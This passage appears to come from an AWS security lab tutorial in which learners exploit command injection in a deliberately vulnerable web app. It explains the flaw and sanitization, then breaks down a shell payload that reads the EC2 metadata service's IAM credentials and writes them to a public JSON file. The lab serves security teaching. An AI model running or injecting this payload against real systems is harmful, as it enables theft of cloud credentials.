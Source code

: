 > **💡 Why are we entering code in the Username field?**  
> Imagine if you asked someone their name, but instead of giving you a simple name, they handed you a paper with a command to unlock your phone and hand it to them. That's essentially what you're doing on the admin portal.
> 
> This sneaky trick is called **command injection.** It's a serious security vulnerability where the web server mistakenly executes your commands when it should merely be storing it.
> 
> Your web app expected a straightforward username, but got a script designed to steal keys instead—specifically, keys to the EC2 instance's IAM credentials.
> 
> This type of vulnerability can let attackers access sensitive information, manipulate services, or even take over the server.
> 
>   
> **💡 Extra for PROs: Why does this vulnerability exist?**  
> The root of the issue here is that your web app doesn't clean up or check the data it receives before processing it.
> 
> **Sanitization** is a best practice where the app knows to strip out or block any harmful scripts or commands, so only harmless, intended data is processed. In this case, our web app did not sanitize. That's why you (as the hacker) can run that malicious code!

![](https://learn.nextwork.org/projects/static/aws-security-guardduty/processed_image_33.png)

 ![Screenshot 2025-05-03 162151](https://github.com/user-attachments/assets/59549109-5fe9-4175-99f8-148dfc5e2e4f)
 

> **💡 Extra for PROs: What does this code do?**  
> The code is a JavaScript command that gives the web app server (i.e. the EC2 instance running your web app's code) a series of instructions.
> 
> All together, these instructions fetch highly sensitive information (IAM credentials to your AWS environment) and stores them in a place where anyone on the internet can access it!
> 
> Let's break down each part of the command:
> 
> 1.  `CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/` sets up an address that points to a special service on AWS called the **EC2 instance metadata service.** This service holds information about your server, like its security credentials for accessing other AWS services. It's only accessible from within the EC2 instance itself, so by passing this in the command injection, you're tricking the web server to access its own metadata.  
>       
>     
> 2.  `TOKEN=\curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` asks the metadata service service for a **session token,** which works like a visitor badge for the metadata service. You need this session token to read the metadata information insde.
>     
> 3.  `CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN")` is an advanced command that retrieves the EC2 instance's IAM credentials (using the session token) and formats them.
>     
> 4.  `echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json` saves the stolen IAM credentials in a **public** JSON file within the web app. This makes the security breach even worse - as the hacker, you've just made the stolen credentials accessible to anyone that visits the web app.
>     
